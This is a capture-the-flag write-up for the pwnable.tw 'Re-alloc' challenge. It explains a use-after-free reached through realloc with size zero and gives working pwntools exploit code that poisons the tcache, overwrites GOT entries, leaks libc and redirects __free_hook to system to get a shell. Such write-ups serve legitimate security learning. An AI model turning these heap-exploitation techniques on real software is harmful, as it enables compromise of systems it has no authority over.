






# pwnable.tw - Re-alloc

Original challenge link: https://pwnable.tw/challenge/#40

You can as well download the file in my repo: [re-alloc.zip](re-alloc.zip)

# 1. Find bug

First, let's decompile the binary with ghidra. We can see that there are 3 option `allocate`, `reallocate` and `rfree`. Having a look around these function, we know the program just use `__libc_realloc()` for both malloc and free:

```
realloc(0, <size>) == malloc(<size>)
realloc(<chunk>, <size>)
- If <size> is the same, nothing happen
- If <size> is different than old size, it will shrink that chunk or extend, or malloc another chunk
realloc(<chunk>, 0) == free(<chunk>)
```

And it seems like there are no bug in source code. However, there is a bug when user interactive program.

Notice the option 2 `reallocate`, the program doesn't check if size is `0`, so if we input size `0`, that chunk will be free and we still have the pointer remain in `heap`, a global variable. But there are no function to edit a freed chunk, how can we modify it? Well, because we have pointer remaining in `heap` so `reallocate` what chunk with the same size as it was freed will not take the chunk out of tcache but program still give us the pointer to the same chunk. 

For example, we `allocate` at index 0 a 0x80-byte chunk (included metadata) with address is `0x45010`. With option 2 `reallocate` and size is `0`, the chunk `0x45010` will be put in tcache now. Then, if we choose option 2 `reallocate` and size is `0x78`, we still have the same pointer `0x45010` returned but the chunk in tcache still remains --> **Use After Free**

That's a good news for us but that's all bug we can find. Let's move on!

# 2. Idea

With bug **Use After Free**, we can overwrite forward pointer of a freed chunk, which goes to tcache, with an address we know and we want. Because there is no option for us to print data so overwriting @got with puts@plt will help us that.

Looking around the source, we can see `atoll` has first argument is our input in `read_long`. We can also see that `realloc` has first argument is `heap[idx]` in both `realloc` and `rfree`, which might contain useful data.

At first, I overwrite `atoll@got` with `puts@plt` but cannot set `atoll@got` back to its value and will got error when program execute `realloc@plt` --> failed.

Then I tried to overwrite `realloc@got` with `puts@plt` too but seems useless when realloc just point to chunk but a maximum 0x80 byte chunk, so cannot leak address of main_arena --> failed.

After that, how about overwriting both `atoll@got` and `realloc@got` because we want is after overwriting `atoll@got`, we just want to leak libc and set everything back to its own address, don't need to `realloc` any more chunk. Therefore, overwriting `atoll@got` with `puts@plt` and `realloc@got` with an instruction `ret` will keep the pointer remain on rax, which is the result of `realloc` as usual.

Then leak address and set all the address back and also remove all address in `heap`. Finally, we will overwrite `__free_hook` with `system` and get shell.

Summary:
- Stage 1: Overwrite `atoll@got` and `realloc@got`
- Stage 2: Leak libc address & set everything back
- Stage 3: Overwrite `__free_hook` with system

# 3. Exploit

Before we start our exploitation, I wrote some function corresponding to options for convenience:

```python
def alloc(idx, size, data):
	p.sendlineafter(b'choice: ', b'1')
	p.sendlineafter(b'Index:', str(idx).encode())
	p.sendlineafter(b'Size:', str(size).encode())
	p.sendafter(b'Data:', data)

def realloc(idx, size, data=''):
	p.sendlineafter(b'choice: ', b'2')
	p.sendlineafter(b'Index:', str(idx).encode())
	p.sendlineafter(b'Size:', str(size).encode())
	if size!=0:
		p.sendafter(b'Data:', data)

def free(idx):
	p.sendlineafter(b'choice: ', b'3')
	p.sendlineafter(b'Index:', str(idx).encode())
```

### Stage 1: Overwrite `atoll@got` and `realloc@got`

First, let's allocate 2 chunk and free 1 chunk as we usually do when attack tcache:

```python
alloc(0, 0x18, b'0'*8)
alloc(1, 0x18, b'1'*8)    # Use After Free for this chunk
free(0)
```

Next, we will use option 2 `realloc` to free chunk index 1 and **Use After Free** to overwrite forward pointer with `atoll@got`:

```python
realloc(1, 0)    # free chunk
realloc(1, 0x18, p64(exe.got['atoll']))
```

We currently have 2 freed chunk in tcache now with one is heap address, one is `atoll@got` address:



We have 1 space in `heap` when `free(0)` above so let's get the freed heap out of tcache first:

```python
alloc(0, 0x18, b'0'*8)
```

The reason why we need to take that chunk out first because the chunk in index 1 is the same as the top freed chunk from image above so if we shrink that chunk `0xf1b280` into a larger chunk, such as 0x30-byte chunk and then free, it will free both chunk 0x30-byte chunk and 0x20-byte chunk. Hence remove the address `atoll@got` from forward pointer and it will disappear.

So after we take the heap chunk out, the tcache now contains only `atoll@got`:



And if we use option 3 `rfree` with the chunk at index 1, size is `0x20` (included metadata), it will then be pushed to the top of tcache idx 0 and our desired address `atoll@got` will be placed after that, which means there are 2 chunks with size `0x20` in tcache now and we cannot use option 1 `allocate` to get address of `atoll@got`.

Hence, we need to shrink chunk at index 1 to a larger chunk so freeing this chunk will push it in another idx of tcache:

```python
realloc(1, 0x28, b'1'*8)
free(1)
```



As we can see chunk at index 0 is pushed to idx 1 of tcache now. Let's take the address of `atoll@got` out and modify `atoll@got` with `puts@plt`, `realloc@got` with `ret` instruction now:

```python
ret = 0x4016d9
alloc(1, 0x18, flat(exe.plt['puts'], 0, ret))
```

And horay, we've done stage 1. Let's leak address out in stage 2.

### Stage 2: Leak libc address & set everything back

Now let's debug gdb and stop at `__read_chk` in `read_long` to analyze stack:



We can see our buffer is at `0x007fff3f6f76b0`. Let's check the stack:



We can see after 8 bytes from buffer, there is an address of libc which is address of stdout:



Because this is read so we will not have null byte at the end of our input. We just send 8 byte to concate our input with address of stdout and when it execute `atoll`, it will print our input and the address out:

```python
p.sendlineafter(b'choice: ', b'1')
p.sendafter(b'Index:', b'12344321')
p.recvuntil(b'12344321')
stdout_addr = u64(p.recvline()[:-1] + b'\x00'*2)
libc.address = stdout_addr - 0x1e5760
log.info("Libc base: " + hex(libc.address))
```

With the base address of libc, we know every address of each function in libc. Let's set everything back as it was and also, set null for 2 addresses of `heap`:

```python
p.sendlineafter(b'choice: ', b'2')
p.sendlineafter(b'Index:', b'\x00')
p.sendlineafter(b'Size:', b'123443212344321')
p.sendafter(b'Data:', flat(exe.plt['atoll'] + 6))

payload = flat(
	exe.plt['atoll'] + 6,
	0, exe.plt['realloc'] + 6,
	exe.plt['setvbuf'] + 6, exe.plt['__isoc99_scanf'] + 6,
	0, 0,
	libc.address + 0x1e5760, 0,    # stdout
	libc.address + 0x1e4a00, 0,    # stdin
	libc.address + 0x1e5680, 0,    # stderr
	0, 0,
	)
realloc(1, 0x78, payload)
```

You know, this is the reason why I free chunk at index 0 first and use chunk at index 1 to attack **Use After Free**. Because we want to set everything back when we have libc and `puts()` will return the number of byte printed so the minimum bytes `puts()` print is 1, which is byte `\n`. That's why we sent null byte at inputing index so we can choose to interact with chunk at index 1, which is address of `atoll@got`.

### Stage 3: Overwrite `__free_hook` with system

Now with everything back, the program will work as normal. Let's use the same trick in stage 1 to overwrite `__free_hook` with `system` and free a chunk with string `/bin/sh` to get shell:

```python
alloc(0, 0x78, b'0'*8)
alloc(1, 0x78, b'1'*8)
free(1)

# Use after free, overwrite forward pointer
realloc(0, 0)
realloc(0, 0x78, p64(libc.sym['__free_hook']) + p64(0))

# Get freed chunk out and shrink
alloc(1, 0x78, b'/bin/sh\x00')
realloc(0, 0x18, b'/bin/sh\x00')
free(0)

# Overwrite __free_hook
alloc(0, 0x78, p64(libc.sym['system']))

# Get shell
realloc(1, 0x18, b'/bin/sh\x00')
free(1)
```

Full code: [solve.py](solve.py)